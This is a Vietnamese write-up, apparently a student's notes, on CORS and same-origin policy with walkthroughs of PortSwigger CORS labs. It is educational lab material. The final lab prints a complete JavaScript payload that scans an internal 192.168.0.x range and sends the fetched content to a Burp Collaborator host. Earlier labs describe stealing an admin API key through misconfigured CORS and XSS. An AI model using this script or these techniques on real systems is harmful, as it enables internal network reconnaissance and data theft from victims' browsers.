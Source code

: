 # Cross-origin resource sharing (CORS)


## Lí thuyết


### CORS là gì?

CORS là một cơ chế của trình duyệt cho phép truy cập đến tài nguyên được tải từ tên miền khác. Nó là một phần mở rộng và nới lỏng của same-origin policy (SOP). Tuy nhiên, nó cũng cung cấp cho attacker khả năng tấn công truy cập đến dữ liệu nhạy cảm nếu như được triển khai không tốt.


### Same-origin policy (SOP) là gì?

SOP là một cơ chế bảo mật của trình duyệt nhằm bảo vệ các dữ liệu nhạy cảm khi được truy cập chéo nguồn. Nó cho phép một trang web yêu cầu tài nguyên từ một trang web khác, nhưng không được truy cập đến tài nguyên đó.

Ví dụ:

Trang web [http://unstrusted-website.com/]() yêu cầu một tấm ảnh từ [http://normal-website.com/image1](), trình duyệt sẽ cho phép tải bức ảnh lên trang web, nhưng không cho phép các đoạn mã javascipts truy cập đến ảnh (ví dụ: gửi ảnh, sửa ảnh, ...). 

Điều này sẽ ngăn chặn các hacker lợi dụng để đánh cắp các dữ liệu nhạy cảm. Vì khi một trình duyệt gửi request HTTP từ trang này sang trang khác, bất kỳ cookie nào, bao gồm cả seesion cookie, có liên quan đến trang khác cũng được gửi như một phần của request. Điều này có nghĩa là request sẽ được tạo trong phiên của người dùng và bao gồm mọi dữ liệu liên quan dành riêng cho người dùng. 

Như trong ví dụ trên, hình ảnh được yêu cầu từ [http://unstrusted-website.com/]() có thể sẽ là một hình ảnh bí mật mà chỉ người dùng được phép truy cập, tuy nhiên vì chúng được gửi truy vấn từ trình duyệt người dùng bao gồm cả seesion cookie, các trang web vẫn sẽ cung cấp hình ảnh đó vì seesion cookie hợp lệ, tuy nhiên cơ chế SOP trên các trình duyệt sẽ đảm bảo tấm ảnh đó vẫn được tải và hiển thị trên trang web yêu cầu, nhưng các đoạn mã khác của trang web không thể truy cập đến hình ảnh đó để chỉnh sửa hoặc đánh cắp và gửi đến nơi khác, do đó chỉ có người dùng trình duyệt mới có thể xem ảnh.

Không có Same-origin policy, nếu bạn truy cập một trang web độc hại, nó có thể đọc email của bạn từ GMail, tin nhắn riêng tư từ Facebook, ... Same-origin policy sẽ ngăn chặn trang web đọc các dữ liệu nhạy cảm đó và gửi đi đến một nơi khác, đảm bảo dữ liệu nhạy cảm của bạn sẽ không bị đánh cắp.


### Cross-origin resource sharing (CORS)

Cơ chế SOP là rất nghiêm ngặt và hạn chế, một vài trang web (tên miền phụ hoặc bên thứ 3) vì các lí do khác cần quyền truy cập đến các dữ liệu được truy vấn. CORS cho phép nới lỏng các hạn chế và kiểm soát quyền cho phép truy cập đến dữ liệu truy vấn. CORS sử dụng các HTML header để xác định nguồn gốc và các thuộc tính liên quan, chẳng hạn như quyền truy cập được xác thực có được phép hay không. Chúng được kết hợp trong một cuộc trao đổi giữa trình duyệt và trang web có nguồn gốc chéo mà nó đang cố gắng truy cập.

Nhiều trang web hiện đại sử dụng CORS để cho phép truy cập từ các miền phụ và các bên thứ ba đáng tin cậy. Việc triển khai CORS của họ có thể có sai sót hoặc quá khoan dung để đảm bảo rằng mọi thứ đều hoạt động và điều này có thể dẫn đến các lỗ hổng có thể khai thác được.


### Phòng chống tấn công CORS

Các lỗ hổng CORS phát sinh chủ yếu do việc cấu hình sai. Nên cách đơn giản phòng chống là cấu hình cho đúng =))

```
1) Chỉ cho phép các trang web đáng tin cậy được truy cập
2) Tránh sử dụng NULL trong Access-Control-Allow-Origin, các lệnh gọi tài nguyên miền chéo từ các tài liệu nội bộ và các yêu cầu hộp cát có thể chỉ định nguồn gốc rỗng. Tiêu đề CORS nên được xác định đúng theo nguồn gốc đáng tin cậy cho các máy chủ riêng và công cộng.
3) Tránh các kí tự đại diện cho mạng nội bộ, chỉ tin cậy cấu hình mạng để bảo vệ tài nguyên bên trong là không đủ khi các trình duyệt nội bộ có thể truy cập các miền bên ngoài không đáng tin cậy.
4) Không dùng CORS để thay thế cho các chính sách bảo mật phía máy chủ, CORS chỉ là một cơ chế của hệ điều hành và nó chỉ giúp bảo vệ một phần. Cần có các chính sách khác từ phía máy chủ để bảo vệ các tài nguyên nhạy cảm, như xác thực, quản lí phiên, ...
```


## PortSwiggerLab


### Lab: CORS vulnerability with basic origin reflection

Link: [https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

![](images/1.png)

Đề yêu cầu dùng javascript code và lợi dụng CORS để lấy adminstrator’s API key

Đăng nhập thử

![](images/2.png)

Ta nhận thấy rằng có một GET request gửi đến `/acountDetails` để nhận về respone bao gồm apikey, chúng ta có thể thấy trường `Access-Control-Allow-Credentials: true` nhưng không có `Access-Control-Allow-Origin`.

Chúng ta sẽ viết một scripts trong đó chúng ta gọi GET đến `acountDetails` để lấy admin API key, sau đó lưu vào log

![](images/3.png)

Đoạn script này đầu tiên sẽ gửi get đến [https://ac0b1fcd1e9bf22980a318e30056008e.web-security-academy.net/accountDeatils]() và do cookie của máy nạn nhân là `admin`, chúng ta sẽ lấy nhận được apikey của `administrator`, sau đó chúng ta gửi kết quả nhận được về log. Truy cập log, ta tìm được

![](images/4.png)

![](images/5.png)
 
Solve thành công

![](images/6.png)


### Lab: CORS vulnerability with trusted null origin

Link: [https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

![](images/7.png)

Đề gợi ý rằng server tin tưởng giá trị null trong trường origin

Ta thử đăng nhập và bắt với burpsuite

![](images/8.png)

Ta thử dùng cách như lab trước để exploit

Không thành công, chẳng có gì xuất hiện trong log cả

![](images/9.png)

Ta nhận thấy trường origin xuất hiện trong request, thử thay nó thành null

![](images/10.png)

Ta nhận thấy trường `access-control-allow-origin: null` xuất hiện trong respone, tức server truth origin null

Như vậy ta sẽ thử đặt lại script exploit vào một <iframe>, khi đó origin trong request sẽ là null

![](images/11.png)

Kiểm tra log, ta tìm được apikey
  
![](images/12.png)
  
Submit apikey
  
![](images/13.png)  

  
Solve thành công

![](images/14.png)
  

### Lab: CORS vulnerability with trusted insecure protocols

Link: [https://portswigger.net/web-security/cors/lab-breaking-https-attack](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

![](images/15.png)

Đề vẫn yêu cầu ta sử dụng CORS để lấy administratos’s API key, mình đã kẹt ở đây khá lâu, tuy nhiên sau khi đọc hint, mình đã tìm được hướng đi chính xác. Đề gợi ý rằng có một cách nào đó có thể thực thi javascript trên subdomain.

Đầu tiên ta kiểm tra xem CORS có truth các subdomain hay ko

![](images/16.png)

Có một subdomain ta tìm được khi dùng để check stock trên web

Bây giờ thử thay nó vào request burp suite

![](images/17.png)

Ta thấy rằng domain của [https://stock.ac3d1f1e1f0e79ba80690ea500cc0089.web-security-academy.net]() được server truth

Như vậy ta có thể lợi dụng việc server truth các subdomain, nếu trên các subdomain có một lỗ hổng giúp chúng ta có thể thực thi js, chúng ta sẽ tấn công CORS được, mình nghĩ ngay đến lỗ hổng XSS vì trước đây mình từng làm lab về XSS trên nền tảng này.

Test thử lỗi XSS

![](images/18.png)

Trang web bị lỗi XSS

![](images/19.png)

Ok, như vậy ta chỉ cần lợi dụng lỗ hổng XSS trên subdomain stock và tấn công CORS để lấy administrator API key

![](images/20.png)

Ta sẽ cho toàn bộ phần script lấy API (bôi xanh) vào biến productId, nơi xảy ra lỗi XSS để thực thi đoạn script như bình thường. Và vì nó được thực thi từ subdomain stock, server truth và trả về API

![](images/21.png)

Submit API

![](images/22.png)

Solve thành công

![](images/23.png)


### Lab: CORS vulnerability with internal network pivot attack

Link: [https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack)

![](images/24.png)

Lần này website sẽ tin tưởng tất cả truy vấn đến từ mạng cục bộ. Đề yêu cầu ta tìm một endpoint trên mạng cục bộ mà ta có thể truy cập, rồi từ đó tấn công CORS đến website dựa vào sự tin tưởng của website trong mạng nội bộ. Và xóa user Carlos.

Bước đầu tiên là ta phải scan một endpoint trong mạng cục bộ, ta sẽ send một scirpt tới và khi người trong mạng cục bộ truy cập, chúng sẽ gửi truy vấn tới các địa chỉ ip trong mạng cục bộ, nếu địa chỉ  trang web qua mạng cục bộ, nếu trang web truy vấn thành công thì sẽ gửi truy vấn đến burp collaborator của ta

Địa chỉ burpcollaborator.net của mình là [0vweksr5nav9my7avnsnvaxy3p9gx5.burpcollaborator.net]()

Đoạn script

```
<script>
var q = [], collaboratorURL = 'https://a7iow23fzk7jy8jk7x4x7k98fzlp9e.burpcollaborator.net';
for(i=1;i<=255;i++){
  q.push(
  function(url){
    return function(wait){
    fetchUrl(url,wait);
    }
  }('http://192.168.0.'+i+':8080'));
}
for(i=1;i<=20;i++){
  if(q.length)q.shift()(i*100);
}
function fetchUrl(url, wait){
  var controller = new AbortController(), signal = controller.signal;
  fetch(url, {signal}).then(r=>r.text().then(text=>
    {
    location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
  }
  ))
  .catch(e => {
  if(q.length) {
    q.shift()(wait);
  }
  });
  setTimeout(x=>{
  controller.abort();
  if(q.length) {
    q.shift()(wait);
  }
  }, wait);
}
</script>

```

Truy cập vào burp collab, ta thấy có một địa chỉ ip hợp lệ là 192.168.0.239

![](images/25.png)
